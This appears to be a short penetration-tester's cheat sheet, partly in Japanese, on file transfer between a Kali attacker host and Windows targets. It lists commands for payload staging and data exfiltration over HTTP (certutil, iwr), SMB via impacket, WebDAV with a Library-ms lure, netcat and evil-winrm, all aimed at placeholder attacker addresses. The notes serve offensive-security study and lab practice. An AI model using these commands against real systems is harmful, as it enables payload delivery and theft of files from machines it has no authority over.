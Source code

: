 ## SCP

## HTTP

apache web server  

python web server  
カレントディレクトリのファイルをリモート側でダウンロードさせる  
```
python3 -m http.server
```

download command  
powershell
```
iwr -Uri "URL" -OutFile "保存先のファイルパス"
```

cmd prompt
```
certutil -urlcache -split -f URL OUTPUTFILE
```
## SMB
### setup
server (linux)
```
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

client (windows)
```
net use m: \\KALI_IP\test /user:kourosh kourosh
```
### upload
cmd
```
copy C:\Users\user\Desktop\payload.zip m:\
```

powershell
```
Copy-Item -Path "C:\Users\user\Desktop\payload.zip" -Destination "m:\"
```

### download
cmd
```
copy m:\secret.txt C:\Users\Public\
```

powershell
```
Copy-Item -Path "m:\secret.txt" -Destination "C:\Users\Public\"
```
## webdav
server(kali)
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root `pwd`
```

client(windows)
execute config.Library-ms
```Library-ms
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.x.x</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

# Netcat
### kali -> windows
listener (linux)
```
nc -nvlp 9999 < file.txt
```

client (windows)
cmd.exe
```
C:\Tools\nc.exe -nv KALI_IP 9999 > file.txt
```

### windows -> kali
listener (kali)
```
nc -nvlp 9999 > file.txt
```

client (windows)
cmd.exe
```
nc.exe -nv KALI_IP 9999 < file.txt
```

powershell
```
Get-Content .\FILE -Encoding Byte -ReadCount 0 | .\nc.exe -nv 192.168.x.x 5555
```
# evil-winrm
download to current local directory
```
download FILEPATH
```

upload to current remote directory
```
upload FILE_PATH
```